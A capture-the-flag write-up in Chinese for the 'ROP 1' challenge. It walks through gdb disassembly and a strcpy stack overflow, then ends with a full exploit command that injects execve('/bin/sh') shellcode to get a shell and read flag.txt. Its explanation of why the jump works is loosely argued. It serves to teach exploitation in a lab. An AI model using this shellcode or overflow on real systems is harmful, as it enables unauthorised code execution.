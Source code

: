 # ROP 1
執行檔被ASLR保護的時候，就是使用如標題[return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)的時候了！
## Gathering Information
 * 編譯好後，打開gdb，看提示說的`%eax`有什麼用：
```
$ gdb -q rop1
Reading symbols from rop1...(no debugging symbols found)...done.
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x08048e60 <+0>:	push   %ebp
   0x08048e61 <+1>:	mov    %esp,%ebp
   0x08048e63 <+3>:	sub    $0x48,%esp; buf
   0x08048e66 <+6>:	sub    $0x8,%esp; name
   0x08048e69 <+9>:	pushl  0x8(%ebp); argument name of strcpy
   0x08048e6c <+12>:	lea    -0x48(%ebp),%eax; load buf -> %eax!
   0x08048e6f <+15>:	push   %eax; argument buf of strcpy
   0x08048e70 <+16>:	call   0x80481e0; calling strcpy
   0x08048e75 <+21>:	add    $0x10,%esp
   0x08048e78 <+24>:	leave
   0x08048e79 <+25>:	ret
End of assembler dump.
```
 * `%eax`存著指到buf的pointer，那麼有什麼function會用到呢？
```
(gdb) disass be_nice_to_people
Dump of assembler code for function be_nice_to_people:
   0x08048e3c <+0>:	push   %ebp
   0x08048e3d <+1>:	mov    %esp,%ebp
   0x08048e3f <+3>:	sub    $0x18,%esp
   0x08048e42 <+6>:	call   0x806c2d0 <getegid>
   0x08048e47 <+11>:	mov    %eax,-0xc(%ebp); here
   0x08048e4a <+14>:	sub    $0x4,%esp
   0x08048e4d <+17>:	pushl  -0xc(%ebp)
   0x08048e50 <+20>:	pushl  -0xc(%ebp)
   0x08048e53 <+23>:	pushl  -0xc(%ebp)
   0x08048e56 <+26>:	call   0x806c2e0 <setresgid> ; !!!!
   0x08048e5b <+31>:	add    $0x10,%esp
   0x08048e5e <+34>:	leave  
   0x08048e5f <+35>:	ret
```
 * 整理一下，目前有的線索：
  * `%eax`存著指到`buf`的pointer
  * `be_nice_to_people`的`setresgid`會把buf搬到那裡執行！
## Solve
 * 目前stack：
```
...
<ret addr>
<old %ebp>   <= %ebp
<buf..0x48
bytes..long>
<addr-name>
<addr -buf>   <= %esp
```
 * overflow `<ret addr>` 成`be_nice_to_people`的位置(`0x8048e3c`)
```bash
$ ./rop1 "$(python -c 'print "A" * 0x48 + "A" * 4 + "\x3c\x8e\x04\x08"')"
Illegal instruction (core dumped)
```
 * bingo！接下來，替換成開啟shell的shellcode：
```
$ ./rop1 "$(python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "A" * 36 + "\x3c\x8e\x04\x08"')"
$ ls
Makefile    flag.txt    rop1    rop1.c
$ cat flag.txt
theres_no_need_to_guess
```

